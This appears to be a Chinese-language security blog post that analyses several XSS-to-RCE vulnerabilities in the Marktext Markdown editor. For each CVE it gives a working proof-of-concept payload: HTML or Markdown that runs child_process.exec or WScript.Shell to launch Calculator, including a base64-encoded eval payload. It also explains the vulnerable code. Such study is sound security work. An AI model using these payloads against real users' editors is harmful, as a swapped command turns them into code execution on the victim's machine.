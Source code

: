 ```yaml
---
title: Markdown Editor CVE  - Marktext
date: 2023-09-13 09:50:00
updated: 2023-09-13 18:13:00
tags: [security]
category: security
---
```


#### 无CVE编号 XSS2RCE
> https://github.com/marktext/marktext/issues/2601
> https://github.com/marktext/marktext/commit/0dd09cc6842d260528c98151c394c5f63d733b62

影响 <= 0.16.3 的marktext版本，点击链接触发。

POC：
```
<a href="javascript:require('child_process').exec('open -a Calculator')" >evil1</a>

[evil2](javascript:require('child_process').exec('open -a Calculator'))
```
是a标签的`href`调用`javascript`伪协议触发XSS导致RCE。
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913162316.png)

#### CVE-2021-29996 XSS2RCE
> https://github.com/marktext/marktext/issues/2548

影响 <= 0.16.3 的marktext版本，打开文件触发。

POC：
```
```<style/onload=require('child_process').exec('calc')>

```

漏洞发现者是在Win环境复现的，在MacOS上复现不出来，但Win上可以。注意，这个多出来的换行是必须的，否则无法复现。

漏洞原理是在markdown语法中，在三个反引号后的内容为代码块的语言。而这里作为语言输出的内容可以被当作HTML标签渲染，能完成打开md文件就RCE。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913164816.png)

#### CVE-2022-24123 XSS2RCE
> https://github.com/marktext/marktext/issues/2946
> 这个洞是Vidar-Team的学长@e99p1ant挖到的洞，他的博客也有对应的分析
> https://github.red/security-bounty-thought/

影响 <= 0.16.3 的marktext版本，打开文件触发。

POC：
```mermaid
sequenceDiagram
 B ->> S: <img src=1 onerror="require('child_process').exec('open /System/Applications/Calculator.app')">
 hello -> B: 
```

Mermaid图标功能会将输入当作HTML解析导致的。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913165551.png)

#### CVE-2022-25069
> https://github.com/marktext/marktext/issues/2990

影响 <= 0.16.3 的marktext版本，粘贴触发。

POC:
```
<table><tr><img src onerror="require('child_process').exec('calc.exe')"></tr></table>
```

漏洞原因是`table`标签内没有对HTML进行转义，从而导致能插入`img`标签并且渲染
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913170743.png)


#### CVE-2023-1004 RCE
> https://github.com/marktext/marktext/issues/3575

影响 <= 0.17.1 的marktext版本，只存在于Windows，点击链接触发。

POC：
poc.html

```html
<!-- auto download !-->
<html>
<script>
    var blob = new Blob(['var WshShell = new ActiveXObject("WScript.Shell");var ret = WshShell.run("calc");if (ret == 0)WScript.Echo("You were hacked.");WScript.Quit();'],{type:'application/js'});
    var a = document.createElement('a');
    a.href = window.URL.createObjectURL(blob);
    a.download =  'poc.js';
    a.click();
</script>
</html>

<!-- click to download !-->
<a href="http://127.0.0.1:8000/poc.js" download="poc.js">CLICK~~</a>
```

poc.js

```js
var WshShell = new ActiveXObject("WScript.Shell");
var ret = WshShell.run("calc");
if (ret == 0)
    WScript.Echo("You were hacked.")
WScript.Quit();
```

漏洞是因为Marktext支持加载 `.js`后缀的文件，在Windows上会被识别为WSH（Windows Script Host）。要求就是本地要有恶意的`js`文件，可以考虑通过点击下载的方式也可以直接放在打包好的文件夹中，触发条件比较复杂。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913152827.png)



#### CVE-2023-2318 XSS2RCE
> **[CVE-2023-2318](https://github.com/advisories/GHSA-jv63-mj7w-v6v9 "CVE-2023-2318")**

影响 <= 0.17.1 的marktext版本，粘贴触发。

POC: 
```
p = btoa(`require("child_process").exec("open -a Calculator")`);
btoa(encodeURIComponent(`[‪](<a href="http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('${p}'))&#x3e;">http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('${p}'))&#x3e;</a>)`))
```

```
[‪](<a href="http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))&#x3e;">http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))&#x3e;</a>)
```

将POC粘贴到编辑器

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230913104923.png)

主要思路是MarkText会在用户粘贴时，检查剪贴板数据，尝试将HTML标签转换成Markdown，然后再生成HTML来进行Markdown的预览。

src/muya/lib/contentState/pasteCtrl.js

```
const links = Array.from(tempWrapper.querySelectorAll('a'))
for (const link of links) {
  const href = link.getAttribute('href')
  const text = link.textContent   // [1]
  if (URL_REG.test(href) && href === text) {
    const title = await getPageTitle(href)
    if (title) {
      link.innerHTML = sanitize(title, PREVIEW_DOMPURIFY_CONFIG, true)
    } else {
      const span = document.createElement('span')   // [2]
      span.innerHTML = text   // [3]
      link.replaceWith(span)
    }
  }
}
```

这段代码会遍历所有a标签，如果href和textContent相同，那么就会执行`getPageTitle`。

```
export const getPageTitle = url => {
  // No need to request the title when it's not url.
  if (!url.startsWith('http')) {
    return ''
  }
  // No need to request the title when off line.
  if (!isOnline()) {
    return ''
  }

  const req = new XMLHttpRequest()
  let settle
  const promise = new Promise((resolve, reject) => {
    settle = resolve
  })
  const handler = () => {
    if (req.readyState === XMLHttpRequest.DONE) {
      if (req.status === 200) {
        const contentType = req.getResponseHeader('Content-Type')
        if (/text\/html/.test(contentType)) {
          const { response } = req
          if (typeof response === 'string') {
            const match = response.match(/<title>(.*)<\/title>/)
            return match && match[1] ? settle(match[1]) : settle('')
          }
          return settle('')
        }
        return settle('')
      } else {
        return settle('')
      }
    }
  }
  const handleError = (e) => {
    settle('')
  }
  req.open('GET', url)
  req.onreadystatechange = handler
  req.onerror = handleError
  req.send()

  // Resolve empty string when `TIMEOUT` passed.
  const timer = new Promise((resolve, reject) => {
    setTimeout(() => {
      resolve('')
    }, TIMEOUT)
  })

  return Promise.race([promise, timer])
}
```

而getPageTitle的作用的请求页面并且获取页面标题，因此POC中构造了一个href和textContent值相同的标签。

当找不到标题时，根据代码`const span = documnet.createElement('span')`，会创建`span`元素，并且将`a`标签的`textContent`分配给`span.innerHTML`，所以就可以控制`textContent`为`http://1:1/#<svg><svg onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))>`，使代码进入找不到标题，进而控制`span.innerHTML`，完成XSS。